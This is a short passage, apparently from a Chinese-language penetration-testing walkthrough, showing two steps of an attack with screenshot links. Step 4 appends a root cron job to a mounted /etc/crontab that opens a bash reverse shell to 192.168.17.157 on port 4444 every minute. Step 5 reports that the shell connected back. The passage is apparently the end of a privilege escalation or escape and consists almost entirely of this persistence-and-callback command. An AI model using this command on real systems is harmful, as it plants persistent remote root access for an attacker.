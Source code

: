 [![](assets/1701826061-e2f65e650aa43d2f970bba0a4b4e60a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025172207-f7a59e8a-7317-1.png)  
Step 4：之后写计划任务

```bash
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.17.157/4444 0>&1\n" >> /mnt/etc/crontab
```

[![](assets/1701826061-a12db7112b9ff0aae3442db3db61544d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025172224-02317568-7318-1.png)  
Step 5：成功反弹 shell

